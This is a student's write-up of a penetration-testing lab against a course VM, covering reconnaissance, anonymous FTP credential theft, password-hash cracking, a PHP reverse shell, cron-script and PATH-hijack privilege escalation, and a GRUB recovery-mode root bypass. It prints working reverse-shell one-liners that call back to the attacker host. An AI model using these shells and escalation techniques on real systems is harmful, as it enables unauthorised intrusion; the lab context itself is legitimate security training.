

### Exercise 1: Setup

1. 
Downlaoded the given (VM)[https://drive.google.com/file/d/1FSZp7cF33Qq6zfaRVDj68LXkYKGVzWhB/view?usp=sharing)]  and installed on vmware.

__2. Start the VM and log in with the credentials ‘ip_address:ip_address’. This will give you
the IP address of the machine. (Make sure the VM is in the same network as the
machine from which you want to perform the penetration test. You MUST be able to
ping it!)__
__Solution :__
Logged in with `ip_address`:`ip_address`


__successfully able to ping__ ip:`192.168.37.130`


__3. Map the obtained IP address to the domain name “security-lab”, so that you can access
the machine by name rather than by IP address.__


edit the `etc/hosts` file and map ip address to `security-lab`
```bash
$ sudo vim /etc/hosts
```


__Exercise 2: Information Gathering__

__1. Determine the open ports of the machine with a tool of your choice.__
__solution__
Tool used : __`Nmap`__

```bash
$ nmap -sC -sV -oA nmap/initial 192.168.37.130
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-04 11:03 EDT

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              19 Apr 11 17:04 credentials
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.37.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ee:7d:76:34:97:37:3e:32:96:e9:2c:2a:4c:8c:a8:5f (RSA)
|   256 27:14:b1:1b:5d:d5:86:53:be:4c:55:02:14:0e:4c:11 (ECDSA)
|_  256 62:25:4d:de:de:2e:07:8b:1f:33:c7:5d:3b:33:20:bb (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
|_http-server-header: Apache/2.4.46 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 30 10:00:25 2021 -- 1 IP address (1 host up) scanned in 8.37 seconds
```

- The result is also same when scanned with `-p-` (all ports)


__2. Implement your own port scanner. Compare the scanning process and the results of
your port scanner with those of the port scanner from the previous task.
Similarities/Differences?__

__solution__
```bash
#!/usr/bin/env python

import socket

def checkPort(port):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.settimeout(1)  #set timout
	try:
		s.connect(('192.168.37.130' , port))	
		print(str(port)+"\t" + " Open")
		s.close()
		return True

	except socket.error:
		s.close()
		return False
	except socket.timeout:   # if port is open or not responding return
		print "Socket timed out"
		s.close()
		return True

	return True

def scan():
	print("PORT\t"  + " "  + "STATE")
	for port in range(1,65535):
		checkPort(port)

	print("Scan complete !!")	

scan()
```

__Result__


__Differences__

1. Version detection
2. Directory listing or permissions associated with it
3. Runing server(s) information
4. Service information
    - OS or kernal detection
5. Response codes
6. Information on latency.


__3. Look at all the discovered ports and obtain as much information as possible.__

```bash
$ nmap  -sC -sV  --version-intensity 5   -p 21,22,80  nmap/more_agressive 192.168.37.130  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-04 15:54 EDT
Unable to split netmask from target expression: "nmap/more_agressive"
Nmap scan report for security-lab (192.168.37.130)
Host is up (0.00077s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              19 Apr 11 17:04 credentials
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.37.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ee:7d:76:34:97:37:3e:32:96:e9:2c:2a:4c:8c:a8:5f (RSA)
|   256 27:14:b1:1b:5d:d5:86:53:be:4c:55:02:14:0e:4c:11 (ECDSA)
|_  256 62:25:4d:de:de:2e:07:8b:1f:33:c7:5d:3b:33:20:bb (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.39 seconds
```

```bash
$ nmap  -A --script=http-enum  -p 21,22,80  nmap/more_agressive 192.168.37.130       
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-04 15:55 EDT
Unable to split netmask from target expression: "nmap/more_agressive"
Nmap scan report for security-lab (192.168.37.130)
Host is up (0.00078s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
| http-enum: 
|   /blog/: Blog
|_  /blog/wp-login.php: Wordpress login page.
|_http-server-header: Apache/2.4.46 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.00 seconds
```


```bash
$ nikto --url http://security-lab  
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.37.130
+ Target Hostname:    security-lab
+ Target Port:        80
+ Start Time:         2021-07-04 16:01:28 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.46 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 5c0f1ed667ed4, mtime: gzip
+ Allowed HTTP Methods: POST, OPTIONS, HEAD, GET 
+ Cookie wordpress_test_cookie created without the httponly flag
+ /blog/wp-login.php: Wordpress login found
+ 7681 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2021-07-04 16:02:35 (GMT-4) (67 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```


scanning usning wpscan

```bash
$ sudo wpscan --url http://security-lab/blog/ 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.14
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://security-lab/blog/ [192.168.37.130]
[+] Started: Sun Jul  4 16:04:33 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.46 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://security-lab/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://security-lab/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://security-lab/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.3.2 identified (Insecure, released on 2019-12-18).
 | Found By: Rss Generator (Passive Detection)
 |  - http://security-lab/blog/index.php/feed/, <generator>https://wordpress.org/?v=5.3.2</generator>
 |  - http://security-lab/blog/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.3.2</generator>

[+] WordPress theme in use: twentynineteen
 | Location: http://security-lab/blog/wp-content/themes/twentynineteen/
 | Latest Version: 2.0 (up to date)
 | Last Updated: 2021-03-09T00:00:00.000Z
 | Readme: http://security-lab/blog/wp-content/themes/twentynineteen/readme.txt
 | Style URL: http://security-lab/blog/wp-content/themes/twentynineteen/style.css?ver=2.0
 | Style Name: Twenty Nineteen
 | Style URI: https://wordpress.org/themes/twentynineteen/
 | Description: Our 2019 default theme is designed to show off the power of the block editor. It features custom sty...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://security-lab/blog/wp-content/themes/twentynineteen/style.css?ver=2.0, Match: 'Version: 2.0'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <==================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Jul  4 16:04:49 2021
[+] Requests Done: 186
[+] Cached Requests: 5
[+] Data Sent: 47.045 KB
[+] Data Received: 17.311 MB
[+] Memory used: 212.164 MB
[+] Elapsed time: 00:00:16
```


### Exercise 3: Pwn the machine


__1. user ‘lab_student’__

- From nmap scan we found that `FTP` is running and can be logged in `anonymously`

Name :`anonymous`
Password: `anonymous`


- Download `credentials` file.

```bash
ftp> get credentials
```


```bash
$ cat credentials 
lab_student:SoSe21
```

- Logging into `ssh` with  username `lab_student` and password `SoSe21`

__Result__


__2. user ‘lab_prof’.__

- Running `linpeas.sh` - resulted a backup file containg the hashes


- Found hash for the user `lab_prof`

```bash
lab_student@lab:~$ cat /var/backups/safety_backup
# Saving my entry of the /etc/shadow file. Just in case a hacker modifies it!!!

lab_prof:$6$2ovzYOy.y4KiJju8$tgrxr.dpK20mRYpmD.SvyFIJPwYwA/ogXnPGQjgB2nNM2gmQYneVoegDaLriFwefGFoxxsHXnpSSapVxNTlFt0:18728:0:99999:7:::
```

__Cracking the hash__
- Tool used `John`

- copy the hash into a file and load it with `john` with wordlist `rockyou.txt`
```bash
$ john crack.teacher.db --wordlist=/home/kali/tryhackme/blue/rockyou.txt
```
- password cracked - `sapphire`


- using `ssh` to login to `lab_prof ` account from `lab_student`

```bash
lab_student@lab:~$ ssh lab_prof@localhost
```


__3. user ‘lab_teacher’.__

- Found a directroy `/var/www/wordpress` where we have write permissions (`world writable`) and it is the same place where wordpress is running.


- creating a `shell.php` file that contains our reverse shell and save it in the `/wordpress` directory.

```bash
<?php
exec("bash -i >& /dev/tcp/192.168.37.128/1234 0>&1");
?>
```

- setup the listener on kali with port `1234` and open the file in the browser (file can be found at `http://security-lab/blog/shell.php`)


__Result__


- On running winpeas, found a suspiciuos file in `wordpress/wp-content/uploads/2014/04../../...` directory.


- looking into the file resulted credentails for `lab_teacher` account.


__Logging in to the `lab_teacher` account__

```bash
$ ssh lab_teacher@192.168.37.130
```
- Password used `pleaseenternewpassword`

__Result__


```bash
lab_teacher@lab:~$ id
uid=1001(lab_teacher) gid=1002(lab_teacher) groups=1002(lab_teacher),1001(teacher)
lab_teacher@lab:~$ whoami
lab_teacher
```

__4Q. root (describe at least 2 of the 3 possible ways)__


__1. Privilege escalation via __`lab_prof`__ account.__

- Found an interesting hidden file named `.save_student_grades`


```bash
lab_prof@lab:~$ cat .save_student_grades 
#!/bin/bash

echo "All students failed" >> /tmp/secret_grades`
```

- Found the file in `/tmp`, and looking at the owner of the file, found out to be `root`. Meaning `root` is running the task.


- After examing the `secret_grades` file, found out that it is writing every minute.

- Adding our reverse shell into the `.save_student_grades` file

```bash
lab_prof@lab:~$ echo "bash -i >& /dev/tcp/192.168.37.128/4242 0>&1" >> .save_student_grades 
lab_prof@lab:~$ cat .save_student_grades 
#!/bin/bash

echo "All students failed" >> /tmp/secret_grades

bash -i >& /dev/tcp/192.168.37.128/4242 0>&1
```

- now setup the listener on kali on port 4242 and wait for the callback

__Result__


- Flag

```bash
{0nLy_w0RthY_57uD3Nt5_4r3_4Ble_t0_oBt41n_tH15_fL46}
```


__2. Privilege escalation via __`lab_teacher`__ account.__

- Linpeas pointed out a binary owned by `lab_teacher` and `SGID` is set.


- examining the binary using `strings`



- found that it is using `touch` and `sleep` to do some operation. Since this program is not using absoulte path to create a file(`touch /tmp/737573706963696f7573`), this can be hijacked by setting up the path to directory  where `lab_teacher` has permissions that executes malicious `touch` binary.
- when the `monitor_students` binary is executed malicious `touch` should execute instead of the binary in `/usr/bin/touch`

```bash
$ which touch
/usr/bin/touch
```

- creating a malicious `touch` binary in `/home/lab_teacher` (where `lab_teacher` has write permissions)

__C program that executes `/bin/bash` in privileged mode__

```c
int main(){
        setuid(0);
        system("/bin/bash -p"); // -p = run in privileged mode
}
```

- compile the  above `c` program and save output as `touch` 

```bash
$ gcc touch.c -o touch
touch.c: In function ‘main’:
touch.c:2:2: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    2 |  setuid(0);
      |  ^~~~~~
touch.c:3:2: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
    3 |  system("/bin/bash -p");
      |  ^~~~~~              
```

- ignore the warnings and mark the binary  as executable


```bash
chmod +x touch
```

__Setting up the path__

- check the `$PATH` environment variable

```bash
$PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
- We can see that binaries are first looked in `/usr/local/sbin` then `/usr/local/bin` and so on..

- Modify the path for `monitor_students` binary to current location (our current location at this point is `/home/lab_teacher` wher our malicious `touch` binary also exists).

```bash
PATH=.:$PATH /lab/monitor_students
```
- when the path is set, `monitor_students` automatically executed and resulted in root shell


- navigate to `/root` and `cat` the root flag. 

__Result__


### Bonus Section

- Initial startup of the machine looks as follows, waiting for the user to enter credentials


- Now restart the virtual machine and continuosly press __`ESC`__ key  to enter into the boot manager.


- select `ubuntu` and press __`[ENTER]`__
- Now `GNU GRUB` options should be displayed


-  select `Advanced options for ubuntu` and press  __`[ENTER]`__

- These advance options contain recovery mode. - Now select `Ubuntu, with Linux 5.8.0.53-generic (recovert mode)` (second option) and press __`e`__ to edit the kernal line.


- Goto the line that starts with `Linux` and replace `ro recovery nomodeset dis_\ucode_ldr`  with `rw init="/bin/bash"`

__From this..__


__to this..__


- Now press `F10` to boot, which results in dropping a root shell

__Result__


<br></br><br></br><br></br><br></br><br></br><br></br><br></br><br></br>
